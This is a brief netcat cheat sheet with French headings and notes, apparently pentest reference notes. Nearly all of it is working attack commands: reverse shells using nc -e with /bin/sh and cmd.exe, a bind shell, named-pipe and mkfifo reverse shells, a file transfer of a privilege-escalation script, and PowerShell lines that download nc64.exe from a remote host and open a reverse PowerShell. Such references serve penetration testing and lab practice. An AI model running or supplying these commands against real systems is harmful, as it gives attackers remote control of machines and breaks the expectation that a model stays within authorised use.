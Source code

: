 # netcat

## reverseshell

Notes : selon les versions `-c` remplace `-e`

```sh
nc 10.0.0.1 1234 -e /bin/sh
nc 10.0.0.1 1234 -e cmd.exe
nc -e /bin/sh 10.0.0.1 1234
```

## listener

```sh
nc -nvlp 443
```

## file transfert

alice:

```sh
nc -lnvp 10443 < lse.sh
```

bob:

```sh
nc IP 10443 > lse.sh
```

## bind shell

```sh
nc -l -p <port> -e /bin/bash
```

## sans options

victime

```sh
mknod /tmp/backpipe p 
/bin/sh 0</tmp/backpipe | nc pentestbox 443 1>/tmp/backpipe
```

## nc traditional: 

```sh
/usr/bin/nc.traditional
```

## Windows

```powershell
powershell -c “iwr http://10.10.14.4:8000/nc64.exe -outfile c:\temp/nc64.exe”
c:\temp\nc64.exe 10.10.14.4 10443 -e powershell
```

## mkfifo

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

